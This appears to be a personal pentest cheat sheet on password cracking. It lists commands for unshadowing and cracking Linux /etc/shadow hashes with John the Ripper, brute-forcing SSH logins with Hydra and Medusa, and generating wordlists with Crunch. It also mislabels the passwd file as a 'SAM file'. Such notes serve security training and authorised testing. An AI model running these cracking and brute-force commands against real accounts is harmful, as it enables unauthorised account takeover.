 # Password Cracks

## SAM file:

= /etc/passswd

## Shadow file:

= /etc/shadow
root: $6 $XYZ....... $HZO......
$6 => Hash type
$XYZ.. => Salt

## John:

To be able to read the shadow file
= $ unshadow users.txt shadow.txt > cracked.txt
($ unshadow /etc/passwd /etc/shadow > linux_hashes.txt)

Ready to crack
= $ john cracked.txt
Check which passwords have been cracked (stored in john.pot)
= $ john -show cracked.txt
Check if any account with a userid of 0
= $ john -show -users:0 passwd.1
Work on the files at the same time
= $ john -single passwd.1 passwd.2


## Hydra:

= $ hydra 192.168.1.100 ssh -l username -p password
= $ hydra 192.168.1.100 ssh -L userList.txt -P /usr/share/wordLists/rockyou.txt -F -V -t 6 -u
= $ hydra 192.168.1.100 ssh -e snr -L userList.txt -F -t 6 -u -v


## Crunch:

= $ crunch 5 5 pentestlab123 -o numbersletters.txt
= $ crunch 5 5 pentestlab\%\@\!
= $ crunch 1 1 -p pen test lab
Splitting wordlist:
= $ crunch 6 6 0123456789 -b 1mb -o START
Specify number of words:
= $ crunch 3 3 -f charset.lst lalpha -o START -c 20
Prefix wordlist:
= $ crunch 13 13 -f charset.lst lalpha -t pentestlab@@@
Or in the middle:
= $ crunch 9 9 -f charset.lst -t @@admin@@

## Medusa:

= $ medusa -h 192.168.1.100 -U usersname.txt -e s -t 6 -F -v 6 -M ssh
